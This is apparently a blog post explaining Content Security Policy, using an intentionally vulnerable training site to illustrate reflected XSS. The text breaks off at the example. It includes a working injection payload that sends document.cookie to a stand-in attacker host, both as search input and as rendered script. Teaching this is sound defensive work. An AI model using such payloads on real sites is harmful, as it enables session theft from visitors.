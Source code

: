 ```yaml
--- 
title: 'CSP: Can See Purpose'
categories: security
tags: http-headers web-security
---
```


What is a Content Security Policy? What problems does it solve? How can I use it to make my site
more secure? How do I implement it without breaking my site? These are the questions I'm aiming to
answer by sharing my experience of implementing a strict Content Security Policy while not breaking
anything.


## What is a Content Security Policy (CSP)

When setting up the infrastructure for my startup, I came across
[securityheaders.com](https://securityheaders.com) which scans any website and ranks its security
based on which HTTP headers it returns. There are many changes you should make to your HTTP headers
to increase your security, some new headers you should add, and some you should remove. One of these
headers is the Content Security Policy.


## What problems does it solve?

The browser will load anything it's told, add a Content Security Policy and it wil only load
approved content. This default behaviour is the basis for many cyber attacks today, the most common
of which is an XSS (Cross Site Scripting) attack.

The basics of an XSS attack is when an attacker will trick the browser into loading untrusted
content in order to attack a websites visitors. As an example, take a look at
[hack-yourself-first.com](http://hack-yourself-first.com) which is a great website set up by [Troy
Hunt](https://www.troyhunt.com) for everyone to learn how to secure their site by hacking another.

Do a search on the site and you'll see your search terms reflected back to you, and in the source 
you'll find:

```html
<script>
  // ...

  $('#searchTerm').val('Nissan');
</script>
```

But, if you search for 

```
');location.href='http://evilcyberhacker.com?cookies='%2BencodeURIComponent(document.cookie);//'
```

the source will contain:

```html
<script>
  // ...

  $('#searchTerm').val('');location.href='http://evilcyberhacker.com?cookies='+encodeURIComponent(document.cookie);//');
</script>
```
